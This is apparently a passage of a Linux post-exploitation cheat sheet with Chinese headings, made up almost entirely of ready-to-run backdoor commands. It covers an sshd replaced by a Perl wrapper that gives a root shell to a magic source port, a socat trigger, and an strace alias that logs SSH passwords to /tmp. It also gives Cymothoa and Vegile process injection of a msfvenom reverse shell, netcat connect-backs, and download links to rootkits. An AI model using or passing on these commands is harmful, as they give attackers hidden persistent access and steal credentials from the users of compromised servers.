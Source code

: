 ```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
```
```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```
##### SSH keylogger 
vim当前用户下的.bashrc文件,末尾添加
```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```
source .bashrc
##### Cymothoa_进程注入backdoor 
```
./cymothoa -p 2270 -s 1 -y 7777
```
```
nc -vv ip 7777
```
##### Vegile_进程注入backdoor

```bash
msfvenom -a x64 --platform linux -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1  LPORT=8080  -f elf -o /tmp/backdoor
```

```bash
# 进程注入
Vegile --i /tmp/backdoor
# 无限重启
Vegile --u /tmp/backdoor
```

##### rootkit

* [openssh_rootkit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
* [Kbeast_rootkit ](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
* Mafix + Suterusu rootkit

##### Tools

* [Vegile ](https://github.com/Screetsec/Vegile)
* [backdoor ](https://github.com/icco/backdoor)

### WEB后门
